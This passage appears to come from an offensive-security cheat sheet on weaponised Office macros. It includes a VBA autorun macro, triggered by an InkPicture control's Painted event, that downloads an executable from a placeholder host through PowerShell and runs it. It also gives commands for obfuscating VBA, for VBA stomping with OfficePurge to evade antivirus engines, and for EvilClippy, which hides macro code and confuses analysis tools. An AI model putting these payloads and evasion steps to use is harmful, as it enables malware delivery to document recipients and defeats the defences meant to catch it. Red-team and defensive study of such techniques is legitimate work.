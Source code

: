 ### DOCM - ActiveX-based (InkPicture control, Painted event) Autorun macro

Go to **Developer tab** on ribbon `-> Insert -> More Controls -> Microsoft InkPicture Control` 

```vb
Private Sub InkPicture1_Painted(ByVal hDC As Long, ByVal Rect As MSINKAUTLib.IInkRectangle)
Run = Shell("cmd.exe /c PowerShell (New-Object System.Net.WebClient).DownloadFile('https://<host>/file.exe','file.exe');Start-Process 'file.exe'", vbNormalFocus)
End Sub
```


### VBA Obfuscation

* [bonnetn/vba-obfuscator](https://github.com/bonnetn/vba-obfuscator) [Youtube demo](https://www.youtube.com/watch?v=L0DlPOLx2k0)
    ```ps1
    $ cat example_macro/download_payload.vba | docker run -i --rm bonnetn/vba-obfuscator /dev/stdin
    ```
* [trustedsec/The_Shelf/spinningteacup](https://github.com/trustedsec/The_Shelf/tree/main/Retired/spinningteacup)


### VBA Purging

**VBA Stomping**: This technique allows attackers to remove compressed VBA code from Office documents and still execute malicious macros without many of the VBA keywords that AV engines had come to rely on for detection. == Removes P-code. 

:warning: VBA stomping is not effective against Excel 97-2003 Workbook (.xls) format.

#### OfficePurge

* https://github.com/fireeye/OfficePurge/releases/download/v1.0/OfficePurge.exe

```powershell
OfficePurge.exe -d word -f .\malicious.doc -m NewMacros
OfficePurge.exe -d excel -f .\payroll.xls -m Module1
OfficePurge.exe -d publisher -f .\donuts.pub -m ThisDocument
OfficePurge.exe -d word -f .\malicious.doc -l
```


#### EvilClippy

> Evil Clippy uses the OpenMCDF library to manipulate CFBF files. 
> Evil Clippy compiles perfectly fine with the Mono C# compiler and has been tested on Linux, OSX and Windows.
> If you want to manipulate CFBF files manually, then FlexHEX is one of the best editors for this.

```ps1
# OSX/Linux
mcs /reference:OpenMcdf.dll,System.IO.Compression.FileSystem.dll /out:EvilClippy.exe *.cs 
# Windows
csc /reference:OpenMcdf.dll,System.IO.Compression.FileSystem.dll /out:EvilClippy.exe *.cs 

EvilClippy.exe -s fake.vbs -g -r cobaltstrike.doc
EvilClippy.exe -s fakecode.vba -t 2016x86 macrofile.doc
EvilClippy.exe -s fakecode.vba -t 2013x64 macrofile.doc

# make macro code unaccessible is to mark the project as locked and unviewable: -u
# Evil Clippy can confuse pcodedmp and many other analysis tools with the -r flag.
EvilClippy.exe -r macrofile.doc
```
